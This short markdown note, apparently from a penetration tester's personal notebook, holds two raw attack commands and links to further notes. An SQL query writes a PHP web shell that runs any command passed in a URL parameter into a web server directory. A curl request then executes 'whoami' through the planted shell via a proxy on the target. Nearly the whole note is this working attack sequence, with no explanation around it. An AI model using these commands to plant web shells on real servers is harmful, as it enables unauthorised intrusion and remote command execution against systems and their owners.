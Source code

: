 ```yaml
---
category: Uncategorized
tags: []
---
```

![[Pasted image 20221108115238.png]]

```
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE 'C:/wamp/www/shelly.php';
```

![[Pasted image 20220610141248.png]]

```
curl "http://127.0.0.1:8080/shelly.php?cmd=whoami" --proxy $TARGET:3128 
```

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

[[rlwrap]]
